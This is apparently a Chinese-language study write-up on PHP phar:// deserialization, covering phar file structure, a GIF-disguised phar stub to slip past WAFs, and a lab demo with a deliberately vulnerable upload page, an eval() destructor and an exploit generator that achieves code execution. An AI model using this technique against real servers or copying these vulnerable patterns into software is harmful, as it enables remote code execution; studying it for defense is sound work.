








# phar://与序列化

## 原理

该方法利用phar文件会序列化储存用户自定义的 **meta-data**，在文件函数(file_exists() , file_get_contents().....)参数可控的情况下，配合phar://伪协议，不依赖unserialize()函数进行反序列化操作。

### phar文件结构

#### a stub

这个可以理解为是phar文件的一个标志，格式为 `xxx<?php xxx;__HALT_COMPILER();?>` 前面的内容不限制，但是必须以 `__HALT_COMPILER();?>` 来结尾，否则phar拓展无法识别这个文件是phar文件。

#### a container describing the contents

phar本质上就是压缩文件，在这个部分，描述了被压缩文件的权限，属性等信息。其中这里有一个用户自定义的 **meta-data** ，这是攻击的核心地方。




#### file contents

需要被压缩的文件

#### signature

签名，放在末尾

## Demo

根究要求我们要创建一个phar文件，才行实现漏洞。注意：要在**php.ini**文件里，找到**phar.readonly**，将其改为**off** ,特别强调的是，前面的分号要去掉(winodws下)。如果是linux环境下，需要在 /etc/php/7.0/apache2/php.ini 和/etc/php/7.0/cli/php.ini 这两个文件都需要修改 phar.readonly 否则不能生成phar文件(被这个坑了半天。。。)

**sub.php**

```php
<?php
    class Test{
   
    }//创建一个类
    $phar = new Phar("test.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Test();//自定义的meta-data
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("phpinfo.txt", "test"); //添加要压缩的文件
    $phar->stopBuffering();    //签名自动计算
?>
```

访问这个文件，会在根目录下生成一个test.phar文件



打开这个文件，可以到Test类被序列化存储



**sub_phar.php**

```php
<?php
class Test{
    function __destruct()
    {
        echo 'Test';  
    }//析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。这里用于展示Test类被反序列化后，便会调用析构函数。
}
$filename = 'phar://test.phar/phpinfo.txt';
file_exists($filename);

?>
```



目前受影响的函数如下



###将phar文件伪装成其他文件

因为stub对前面的内容不做限制，所以可以将`xxx<?php xxx;__HALT_COMPILER();?>`  改为`'Gif9a'.'<?php __HALT_COMPILER();?>'`  绕过某些WAF的检测。



## 漏洞验证

**upload_file.html**

```html
<head>
<title>Phar_test</title>
<body>
    <form action="http://localhost/phar/upload.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file" />
        <input type="submit" name="submit" />
    </form>
</body>
</head>
```

**upload.php**

```php
<?php
//验证文件类型和文件名
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];
//判断文件是否存在
    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
      {
      echo $_FILES["file"]["name"] . " already exists. ";
      }
    else
      {
      move_uploaded_file($_FILES["file"]["tmp_name"],
      "upload_file/" .$_FILES["file"]["name"]);
      echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
      }
    }
else
  {
  echo "Invalid file,you can only upload gif";//文件类型不符合，跳转这个分支。
  }
```

**file_un.php**

```php
<?php
$filename=$_GET['filename'];
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
file_exists($filename);
?>
```

首先我们根据file_un.php写一个exp脚本，生成phar文件。

**evil.php**

```php
<?php
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
$phar = new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub('Gif9a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString('phpinfo.txt','test');
$test = new Test();
$test->output='phpinfo();';
$phar->setMetadata($test);
$phar->stopBuffering();
?>
```

### 触发机制

首先，访问evil.php在本地生成一个phar文件：**phar.phar** 接着将文件名改为phar.gif。来到upload_file.html页面，上传phar.gif文件。



可以看到上传成功，来到file_un.php页面，用phar://协议，进行反序列化：



可以看到，成功执行。

## 利用条件

1. phar文件能够上传服务器端
2. 要有能利用的魔术方法作为”中间人“
3. 文件操作函数的参数可控，**phar，：，/**等字符没被过滤

## END

花了几个小时，学习了这个漏洞，收获很多，对于自己的知识也得到了提升。

参考链接：https://paper.seebug.org/680/#0x01

